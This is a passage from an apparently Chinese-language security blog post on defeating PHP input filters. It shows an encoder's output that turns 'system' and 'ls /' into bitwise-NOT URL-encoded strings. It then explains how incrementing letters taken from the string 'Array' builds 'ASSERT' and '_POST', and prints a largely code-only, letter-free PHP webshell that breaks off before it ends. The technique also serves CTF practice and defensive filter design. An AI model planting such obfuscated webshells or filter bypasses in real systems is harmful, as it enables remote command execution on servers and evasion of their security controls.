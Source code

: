 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7Hy5kwJNbuOkjNBEhzTPqCfFl2QnTbHjNmkbNZVVtKrXdMkpLibEW34qg/640?wx_fmt=jpeg)

```
[+]your function: system
[+]your command: ls /
[*] (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

自增绕过
----

### 绕过原理

首先我们来看一看 PHP 中自增自减的一个特性：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HgaOCWgRictxC6z5W0CspqeUXYOkqTqLduLE083CJLAk9avkajE9ExWg/640?wx_fmt=jpeg)

也就是说：

```
"A"++ ==> "B"
"B"++ ==> "C"
......
```

所以，只要我们能拿到一个变量，其值为`a`，那么通过自增操作即可获得`a-z`中所有字符。

那么，如何拿到一个值为字符串’a’的变量呢？我们发现，在 PHP 中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HYfh83UR5BaCZagXEGHaicUBgtMwBpeMNu7IrefexevMOq92DDZVnicJQ/640?wx_fmt=jpeg)

而`Array`的第一个字母就是大写 A，而且第 4 个字母是小写 a。也就是说我们可以同时拿到小写 a 和大写 A，那么我们就可以拿到`a-z`和`A-Z`的所有字母：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HVXzred8cDouH58cZ78kbVQS9wL46SWT0ZzPU38CkptP2fF1J7wrBicQ/640?wx_fmt=jpeg)

下面给出 PHITHON 师傅编写的 Webshell：

```
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
```